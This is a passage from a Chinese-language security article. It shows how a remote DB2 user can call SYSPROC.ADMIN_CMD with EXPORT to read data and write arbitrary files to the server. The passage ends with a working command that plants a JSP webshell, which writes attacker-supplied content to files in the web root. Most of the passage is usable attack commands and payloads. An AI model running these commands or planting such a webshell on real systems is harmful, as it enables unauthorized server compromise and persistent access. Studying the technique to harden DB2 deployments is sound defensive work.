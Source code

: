 ![pic36](http://drops.javaweb.org/uploads/images/8de40b1d2136aa2cdb54c0274808d7a64997cad7.jpg)

![pic37](http://drops.javaweb.org/uploads/images/ddb1b645d4a46d7530a52d25d40d982eabd4c38c.jpg)

读取的文件信息：

![pic38](http://drops.javaweb.org/uploads/images/e2458fc6968bfabdfcaee9b158c996b58e358208.jpg)

利用DB2向操作系统写文件
-------------

DB2的EXPORT命令用于将数据库中的内容导入到文件中，使用语法如下：

```
EXPORT TO result.csv OF DEL MODIFIED BY NOCHARDEL SELECT col1, col2, coln FROM testtable;

```

使用上一小节提到的ADMIN_CMD存储过程运行该命令方法：

```
CALL SYSPROC.ADMIN_CMD ('EXPORT TO C:\RESULT.TXT OF DEL MODIFIED BY NOCHARDEL SELECT * FROM VOTENAME');

```

调用过程和结果：

![pic39](http://drops.javaweb.org/uploads/images/3578b4ec73b2b59a83350eb5d847d412359030d5.jpg)

![pic40](http://drops.javaweb.org/uploads/images/edafbb48fe1d6656a5e8338ece5e76880059e700.jpg)

远程连接数据库的用户可以先创建一个表（或对EXPORT命令涉及的表具有SELECT权限），然后调用ADMIN_CMD存储过程执行EXPORT命令向操作系统写文件

向操作系统写入包含某些字符串的文件语法如下：

```
CALL SYSPROC.ADMIN_CMD ('EXPORT TO C:\RESULT.TXT OF DEL MODIFIED BY NOCHARDEL SELECT ''My Content'' FROM VOTENAME FETCH FIRST 1 ROWS ONLY');

```

远程调用结果：

![pic41](http://drops.javaweb.org/uploads/images/6b84bf48b6905b2219f41f6c1cf57bdb799faf38.jpg)

![pic42](http://drops.javaweb.org/uploads/images/5010659c3ebf03a22bf9023947c1c3718185e5e0.jpg)

利用该方法写webshell语法：

```
CALL SYSPROC.ADMIN_CMD ('EXPORT TO C:\RESULT.jsp OF DEL MODIFIED BY NOCHARDEL SELECT ''<%if(request.getParameter("f")!=null){(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("c").getBytes());response.getWriter().print("[OK]");}%>'' FROM VOTENAME FETCH FIRST 1 ROWS ONLY');

```
